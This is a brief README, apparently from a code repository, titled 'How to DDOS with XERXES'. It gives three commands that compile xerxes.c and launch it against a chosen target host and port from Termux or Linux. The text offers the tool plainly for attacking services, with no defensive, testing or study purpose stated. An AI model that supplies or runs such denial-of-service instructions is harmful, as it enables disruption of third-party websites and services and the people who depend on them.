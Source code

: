 # How to DDOS with XERXES
## In Android System 5.0 > 
### Using Termux or Command Prompt Linux only





> cd ddos_xerxes

> gcc xerxes.c -o xerxes

> ./xerxes <target.com> <port>
